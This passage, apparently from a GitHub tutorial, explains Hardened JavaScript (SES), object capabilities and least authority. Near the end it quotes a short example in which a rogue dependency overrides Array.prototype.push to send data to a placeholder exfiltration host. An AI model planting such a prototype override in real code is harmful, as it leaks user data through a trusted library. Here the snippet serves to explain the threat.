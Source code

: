 _Figure 1: JavaScript Language Features_
> Above screenshot is taken from [Hardened JavaScript Security Report](https://assets.ctfassets.net/xm0kp9xt5r54/5yM6whKLuiTTCvXQiSw0xe/24bc9532c5ed26f429ec7354095b491e/Hardened-JavaScript.pdf).

The [SES Guide](https://github.com/endojs/endo/blob/master/packages/ses/docs/guide.md) from the docs describes `Hardened JavaScript` as below;
- Is a JavaScript runtime library for safely running third-party code.
- Addresses JavaScript’s lack of internal security.
  - This is particularly significant because JavaScript applications
    use and rely on third-party code (modules, packages, libraries,
    user-provided code for extensions and plug-ins, etc.).
- Enforces best practices by removing hazardous features such as global
  mutable state and lack of encapsulation in sloppy mode.
- Is a safe deterministic subset of "strict mode" JavaScript.
- Does not include any IO objects that provide
  [*ambient authority*](https://en.wikipedia.org/wiki/Ambient_authority).
- Removes non-determinism by modifying a few built-in objects.
- Adds functionality to freeze and make immutable both built-in JavaScript
  objects and program created objects.

### Principals of Hardened JavaScript
`Hardened JavaScript` aims to bring security to JavaScript by actually removing insecurities. In order to enforce security, it relies on 
two principals;
* **OCaps(Object Capabilities)**: _SES Guide[4]_ describes OCaps discipline as below;<br>
  "Any programming environment fitting the OCaps model satisfies three requirements:
  * Any program can protect its invariants by hiding its own data and capabilities.
  * Power can only be exercised over something by having a reference to the object providing that power, for example, a file system object. 
  A reference to a powerful object is a capability.
  * The only way to get a capability is by being given one. For example, by receiving one as an argument of a constructor or method."
  
  _SES Guide[4]_ also adds: "With OCaps, many strangers can collaborate in a single sandbox, without risking them frustrating, interfering, 
  or conspiring with or against the user or each other."


* **POLA(Principal of Least Authority):** A general definition might be;

  "_The Principle of Least Authority (POLA) says that code should be granted only the authority it needs to perform its task and no more._"[5]

  `Hardened JavaScript` does not directly enforce `POLA` but implements a rich toolset so that the programmers can hand out necessary authorities,
and no more, to their modules.

### What do you mean by "internal threats"?
What happens if a program your code depends on, misbehaves? What happens if it overrides the `Array.prototype.push` method?
With the normal JavaScript, there's nothing prevents something like below;
```js
const push = Array.prototype.push;
Array.prototype.push = (...args) => {
  fetch(`https://exfiltrate.example.com?${args}`);
  return push.apply(this, args);
};
```
> **Note**: The code sample above is taken from [Hardened JavaScript(10:34)](https://www.youtube.com/watch?v=RZ7bBIU8DRc).
